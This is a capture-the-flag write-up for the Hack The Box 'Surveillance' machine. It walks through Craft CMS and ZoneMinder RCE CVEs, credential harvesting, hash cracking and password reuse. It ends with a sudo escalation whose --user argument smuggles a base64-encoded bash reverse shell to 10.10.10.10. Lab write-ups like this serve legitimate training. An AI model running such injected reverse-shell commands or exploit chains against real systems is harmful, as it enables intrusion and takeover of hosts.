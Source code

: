 ```yaml
---
layout: default_1
title: "Surveillance - HTB"
date: 2024-04-20
tags: writeup hackthebox surveillance
---
```


# HTB Surveillance Write Up
![HTB Surveillance](/assets/2024-04-20-writeups-surveillance-htb/machine_info.png "HTB Surveillance")


## Introduction
Surveillance provider company with focus com home security.  

## Network Scan

<details>
<summary><b>Nmap scan result</b></summary>
<div markdown="1">
~~~
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 96:07:1c:c6:77:3e:07:a0:cc:6f:24:19:74:4d:57:0b (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBN+/g3FqMmVlkT3XCSMH/JtvGJDW3+PBxqJ+pURQey6GMjs7abbrEOCcVugczanWj1WNU5jsaYzlkCEZHlsHLvk=
|   256 0b:a4:c0:cf:e2:3b:95:ae:f6:f5:df:7d:0c:88:d6:ce (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIIm6HJTYy2teiiP6uZoSCHhsWHN+z3SVL/21fy6cZWZi
80/tcp   open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://surveillance.htb/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
~~~
</div>

</details>


## Investigation
The http server redirects to a vhost `surveillance.htb`.  

The main website is static, and it was created with `Craft CMS`  
![Main Website](/assets/2024-04-20-writeups-surveillance-htb/main_website.png "Main Website")
![Craft CMS](/assets/2024-04-20-writeups-surveillance-htb/craft_cms.png "Craft CMS")

The CMS version in hyperlinked in the website `https://github.com/craftcms/cms/tree/4.4.14`.    
This version is vulnerable to a RCE vulnerability with a public exploit - [CVE-2023-41892][cve-2023-41892]  

### User www-data
Running the exploit return a shell with `www-data` user  
```
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Manually enumerating the server, the following information was obtained  
- Mariadb runnning on port 3306
- Two users with shell: matthew and zoneminder
- CraftCMS database credentials on .env file
   - user: craftuser
   - pass: CraftCMSPassword2023!
- Backup folder with a database dump  
   - /var/www/html/craft/storage/backups/surveillance--2023-10-17-202801--v4.4.14.sql.zip

The current CMS database only had one user with a high iteration on the hash. This make it hard to crack, executed hashcat anyways.  
`admin@surveillance.htb | $2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe`  

Meanwhile, searching the backup for more information. The backup stored the admin pass with a weak hash.  
`admin@surveillance.htb | 39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec`  
Easily cracked to `starcraft122490`  

### User matthew
Checking for password reuse and logged as matthew.  
```
$ id
uid=1000(matthew) gid=1000(matthew) groups=1000(matthew)
```

No sudoers entry for this user. Moving on to run linpeas on the system.  
Linpeas found another credential, this time for Zoneminder database on /usr/share/zoneminder/www/api/app/Config/database.php  
- user: zmuser
- pass: ZoneMinderPassword2023

Search for more password hashes in the database and found another uncracked hash  
`admin | $2y$10$BuFy0QTupRjSWW6kEAlBCO6AlZ8ZPGDI8Xba5pi/gLr2ap86dxYd.`

Moving on to zoneminder service. The service description is  
`A full-featured, open source, state-of-the-art video surveillance software system.`
Again, vulnerable to Unauthenticated RCE [CVE-2023-26035][cve-2023-26035].

### User zoneminder
Moved to the other user on the box, zoneminder  
```
$ id
uid=1001(zoneminder) gid=1001(zoneminder) groups=1001(zoneminder)
```

Verifying sudores:  
```
$ sudo -l
...
(ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *
```

/user/bin/zm\*.pl is a suite of tools for the zoneminder service.  
One way to exploit this suite is by abusing the zmupdate.pl tool, as shown in [this blog][zm-privesc].  
Reverse shell example:  
```
$ sudo /usr/bin/zmupdate.pl --version 1 --user='$(echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xMC4xMC81NTU1IDA+JjEK | base64 -d | bash)'
```

```
# whoami
root
```


[cve-2023-41892]: <https://gist.github.com/to016/b796ca3275fa11b5ab9594b1522f7226> "cve-2023-41892"
[cve-2023-26035]: <https://github.com/rvizx/CVE-2023-26035> "cve-2023-26035"
[zm-privesc]: <https://vk9-sec.com/privilege-escalation-zoneminder-scripts-command-injection-local/> "ZoneMinder PrivEsc"

